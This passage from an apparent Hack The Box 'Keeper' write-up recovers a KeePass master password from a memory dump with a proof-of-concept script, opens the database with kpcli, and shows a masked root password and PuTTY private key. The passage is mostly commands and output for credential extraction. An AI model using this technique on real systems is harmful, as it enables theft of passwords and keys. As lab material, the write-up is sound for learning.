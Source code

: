 Tried the original PoC in dotnet, but the password didn't seem to make any sense to me, so I tried another implementation of the tool in python, and yea, same result, so I'm googling around some more about those words, and it quickly started to make sense, this is so Danish food stuff... haha.
```bash
python3 poc.py ~/sec/htb/machines/keeper/loot/zip/KeePassDumpFull.dmp
2023-08-14 23:21:32,532 [.] [main] Opened /home/blnkn/sec/htb/machines/keeper/loot/zip/KeePassDumpFull.dmp
Possible password: ●,d**************
Possible password: ●ld**************
Possible password: ●`d**************
Possible password: ●-d**************
Possible password: ●'d**************
Possible password: ●]d**************
Possible password: ●Ad**************
Possible password: ●Id**************
Possible password: ●:d**************
Possible password: ●=d**************
Possible password: ●_d**************
Possible password: ●cd**************
Possible password: ●Md**************
```
```bash
sudo apt-get install kpcli
```
```bash
kpcli --kdb=passcodes.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```

Exploring the db we find a Putty key pretty quickly
```bash
kpcli:/passcodes/Network> show -f 0

 Path: /passcodes/Network/
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4********
  URL:
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AA**************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************
       Private-Lines: 14
       AA**************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
       ****************************************************************
```